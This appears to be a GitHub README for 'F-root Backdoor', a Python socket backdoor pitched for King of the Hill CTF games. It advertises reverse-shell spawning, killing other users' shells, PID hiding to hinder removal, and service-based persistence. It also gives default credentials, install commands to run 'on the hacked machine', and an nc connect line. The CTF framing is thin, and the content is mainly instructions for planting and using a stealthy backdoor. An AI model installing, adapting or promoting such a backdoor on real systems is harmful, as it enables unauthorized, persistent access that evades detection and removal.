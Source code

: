 ![banner](https://cdn.discordapp.com/attachments/953295200200065056/1093675758922248213/Screenshot_2023-04-06_20-16-15.png)


<h1>F-root Backdoor</h1> 

> :warning: In development

### Topics

#### [Description](#description)
#### [Perks](#perks)
#### [configuration](#configuration)
#### [requisites](#requisites)

## **Description**
<p align="justify">
  A Simple Backdoor Made in Python Using Sockets I Believe It's Simple To Handle Other Than It Hides PID From Connections Making The Backdoor Better For Games Like Koth 
</p>

## Requisites
Python3 (tested on: Python 3.11.2, 3.9.9, 3.6.9)

### tested koth machines
Hackers :white_check_mark:
Food :white_check_mark:
Shrek :white_check_mark:
Hogwarts ❌
SpaceJam ❌

if possible root in the machine
## Perks

### Revshell
The backdoor can make a Revshell for other devices Only using a command #revshell
![revshell](https://cdn.discordapp.com/attachments/953295200200065056/1093672538078453770/Screenshot_2023-04-06_20-04-06.png)
### Kill
In Game Situations (Koth) It Would Be Ideal to Create a Command to Kill Any Shell Existing on the Machine With tty Only using a command #kill
![kill](https://media.discordapp.net/attachments/953295200200065056/1093674460638351410/Screenshot_2023-04-06_20-11-44.png?width=1219&height=762)

### Login System
The backdoor has a login system so that if someone connects you will need a login and password :)
![login](https://cdn.discordapp.com/attachments/953295200200065056/1093676969167704074/Screenshot_2023-04-06_20-21-07.png)

### Hidden PID
The backdoor Hides The PID of the process that is done through the server making it difficult to remove the backdoor
![hidden](https://cdn.discordapp.com/attachments/953295200200065056/1093682587345633342/Screenshot_2023-04-06_20-44-02.png)


## Configuration
Change the passwords or the port if you want to default the port is 2222 and the login and password are `froot:detrew`

If you want to simplify things run the file install.sh (Modify the file Server.py before)

if you don't just change things in the file and it's ready to run, if you want to add an extra persistence you can add a service that will run the file

## Install 
### On The Hacked Machine
```
git clone https://github.com/Detrew/f-root-backdoor
cd f-root-backdoor
chmod +x install.sh
bash install.sh
```
### On Your Machine Connect Using nc
`nc IP PORT`

### problems or doubts my discord is Detrew#0600
